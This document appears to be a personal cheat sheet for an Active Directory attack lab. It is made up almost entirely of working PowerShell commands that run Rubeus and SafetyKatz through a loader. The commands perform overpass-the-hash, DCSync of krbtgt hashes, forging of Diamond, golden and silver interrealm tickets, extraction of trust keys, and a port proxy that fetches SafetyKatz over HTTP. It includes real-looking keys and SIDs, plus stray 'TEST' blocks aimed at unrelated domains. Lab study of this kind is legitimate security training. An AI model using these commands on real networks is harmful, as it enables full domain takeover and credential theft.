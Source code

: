 
##### Cross domain
OPtH + Obtain krbtgt hash
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\SafetyKatz.exe -args "lsadump::evasive-dcsync /user:dcorp\krbtgt" "exit"
```

Obtain Domain Controllers SID of parent domain for interrealm Diamond ticket
```powershell
Get-DomainGroup -Identity "Domain Controllers" -domain moneycorp.local
```

Forge interrealm Diamond ticket using the DC identity 
> **Note:** `/sids` = (Domain Controllers SID), (Enterprise Domain Controllers -  S-1-5-9 )
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\Rubeus.exe -args diamond /krbkey:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /tgtdeleg /enctype:aes /ticketuser:dcorp-dc$ /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:1000 /sids:S-1-5-21-335606122-960912869-3279953914-516,S-1-5-9 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

Run DCsync on parent domain
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\SafetyKatz.exe "lsadump::evasive-dcsync /user:mcorp\krbtgt /domain:moneycorp.local" "exit"
```

Forge golden ticket to access parent domain DC
```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args evasive-golden /aes256:90ec02cc0396de7e08c7d5a163c21fd59fcb9f8163254f9775fc2604b9aedb5e /domain:moneycorp.local /sid:S-1-5-21-335606122-960912869-3279953914 /ldap /user:Administrator /printcmd
```

Run displayed command and add `/ptt`
```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args <argumnets> /ptt
```

##### Cross external trusts 

OPtH and obtain trust key
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

```powershell
echo F | xcopy C:\Users\Public\Loader.exe \\dcorp-dc\C$\Users\Public\Loader.exe

winrs -r:dcorp-dc cmd

netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.48

C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args "lsadump::evasive-trust /patch" "exit"
```

TEST
```powershell
f112ca3fdde9210caf7335939d95c191

Rubeus.exe -args evasive-silver /service:krbtgt/painters.htb /rc4:0198d3872de6e6c0978af7ebe2d8d495 /sid:S-1-5-21-1470357062-2280927533-300823338 /ldap /user:Administrator /nowrap
```

Create interrealm ticket - `sid` = current domain
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\Rubeus.exe -args evasive-silver /service:krbtgt/DOLLARCORP.MONEYCORP.LOCAL /rc4:0198d3872de6e6c0978af7ebe2d8d495 /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /nowrap
```

> **Note:** Can only access resources that were explicitly shared with you


TEST
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\Rubeus.exe -args asktgs /service:cifs/ZPH-SVRDC01.zsm.local /dc:ZPH-SVRDC01.zsm.local /ptt /ticket:
```


Import ticket to access shared resources
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\Rubeus.exe -args asktgs /service:cifs/eurocorp-dc.eurocorp.local /dc:eurocorp-dc.eurocorp.local /ptt /ticket:<FORGED TICKET>
```

View resources
```powershell
net view \\eurocorp-dc.eurocorp.LOCAL

dir \\eurocorp-dc.eurocorp.local\SharedwithDCorp\
```

